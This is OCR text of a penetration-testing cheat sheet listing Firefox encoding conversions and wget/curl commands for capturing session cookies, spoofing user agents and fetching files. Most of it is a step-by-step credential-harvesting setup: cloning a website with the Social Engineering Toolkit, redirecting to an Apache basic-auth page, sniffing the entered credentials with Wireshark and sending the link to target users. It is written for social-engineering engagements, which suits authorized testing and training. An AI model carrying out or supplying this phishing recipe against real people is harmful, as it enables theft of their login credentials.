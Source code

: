 
FIREFOX TYPE CONVERSIONS

ASCII	- Base64	javascript:btoa("ascii str")
Base64	- ASCII		javascript:atob("base64==")
ASCII	- URI		javascript:encodeURI(" script:")
URI	- ASCII		javascript:decodeURI("%3cscript%3E")


WGET


CAPTURE SESSION TOKEN

wget -q --save-cookies=cookie.txt --keep-session-cookies --post-data="username:admin&password=pass&Login=Login" http:// <url> /login.php


CURL


GRAB HEADERS AND SPOOF USER AGENT

curl -I -X HEAD -A "Mozilla/5.0 (compatible; MSIE 7.01; Windows NT 5.0)" http:// ip


SCRAPE SITE AFTER LOGIN

curl -u user:pass -o outfile https://login.bob.com


FTP

curl ftp://user:pass@bob.com/directory/


SEQUENTIAL LOOKUP

curl http://bob.com/file[1-10].txt


BASIC AUTHENTICATION USING APACHE 2

The steps below will clone a website and redirect after 3 seconds to 
another page requiring basic authentication. It has proven very useful for 
collecting credentials during social engineering engagements.

1. Start Social Engineering Toolkit (SET) 
	/pentest/exploits/set/./set
2. Through SET, use the 'Website Attack Vector' menu to clone your 
   preferred website. * Do not close SET *
3. In a new terminal create a new directory (lowercase L) mkdir /var/www/1
4. Browse to SET directory and copy the cloned site 
	cd /pentest/exploits/set/src/web_clone/site/template/ 
	cp index.html /var/www/index.html 
	cp index.html /var/www/l/index.html
5. Open /var/www/index.html and add tag between head tags 
	meta http-equiv="refresh"
	content="3;url=http:// domain|ip /l/index.html"/
6. Create blank password file to be used for basic auth 
	touch /etc/apache2/.htpasswd
7. Open /etc/apache2/sites-available/default and add: 
	Directory /var/www/1
		AuthType Basic
		AuthName "PORTAL LOGIN BANNER"
		AuthUserFile /etc/apache2/.htpasswd 
		Require user test
	/Directory
8. Start Apache2
	/etc/init.d/apache2 start
9. Start Wireshark and add the filter: 
	http.authbasic
10. Send the following link to your target users 
		http:// domain|ip /index.html
